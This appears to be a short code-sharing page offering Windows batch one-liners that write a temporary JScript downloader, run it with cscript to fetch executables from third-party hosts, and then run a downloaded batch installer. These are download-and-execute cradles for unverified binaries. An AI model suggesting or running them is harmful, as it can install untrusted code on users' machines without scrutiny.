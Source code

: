 
> set f="%random%.js" && echo with(WScript){if(CreateObject("Scripting.FileSystemObject").FileExists(arguments(1))){Quit();}with(CreateObject("MSXML2.ServerXMLHTTP")){open('GET',arguments(0),false);send();s=responseBody;}with(CreateObject("ADODB.Stream")){Open();Type=1;Write(s);Position=0;SaveToFile(arguments(1),2);Close();}} >%f% && cscript /nologo %f% https://partnernetsoftware.com/wget64.1.20.3.exe w.exe && del %f% /f /q && dir w.exe

Yup, u now can do anything start from w.exe

for example 
> w -qO - https://www.google.com/
> w https://github.com/shadowsocks/go-shadowsocks2/releases/download/v0.0.11/shadowsocks2-win64.zip
> w https://download.zerotier.com/dist/ZeroTier%20One.msi

or

> w -q some-remote-file-url -o local-file-installer.exe && local-file-installer.exe

for example

> set f="%random%.js" && echo with(WScript){if(CreateObject("Scripting.FileSystemObject").FileExists(arguments(1))){Quit();}with(CreateObject("MSXML2.ServerXMLHTTP")){open('GET',arguments(0),false);send();s=responseBody;}with(CreateObject("ADODB.Stream")){Open();Type=1;Write(s);Position=0;SaveToFile(arguments(1),2);Close();}} >%f% && cscript /nologo %f% http://jump.ws/wget.exe w.exe && del %f% /f /q && w -q http://jump.ws/php5444.bat -O php5444.bat && php5444.bat -m


finally:
```
@echo off
set ndl=0
set p0=%~dp0
set ph=%p0%php5444tool\php.exe
set st=0
:st

if exist "%ph%" (
	if "%1" EQU "" (%ph% test.php) else (%ph% %1 %2 %3 %4 %5 %6 %7 %8 %9)
) else (
	if %st% NEQ 1 (
		if exist dl.js del /f /q dl.js
		@set ss="with(WScript){if(CreateObject('Scripting.FileSystemObject').FileExists(arguments(1))){Quit();}with(CreateObject('MSXML2.ServerXMLHTTP')){open('GET',arguments(0),false);send();s=responseBody;}with(CreateObject('ADODB.Stream')){Open();Type=1;Write(s);Position=0;SaveToFile(arguments(1),2);Close();}}"
		@for /f "delims=" %%a in (%ss%) do echo %%a > dl.js

		cscript /nologo dl.js "http://jump.ws/wget.exe" "wget.exe"
		if exist dl.js del /f /q dl.js

		wget -c -O php5444mini4tool.exe http://jump.ws/php5444mini4tool.exe
		mkdir php5444tool
		cd php5444tool
		..\php5444mini4tool.exe -x
		cd ..
		copy php5444tool\test.php .\
		del /f /q php5444mini4tool.exe
		set st=1 && goto st
	)
)
:ed
```
---

PLEASE FOLLOW ME IF YOU LIKE THIS
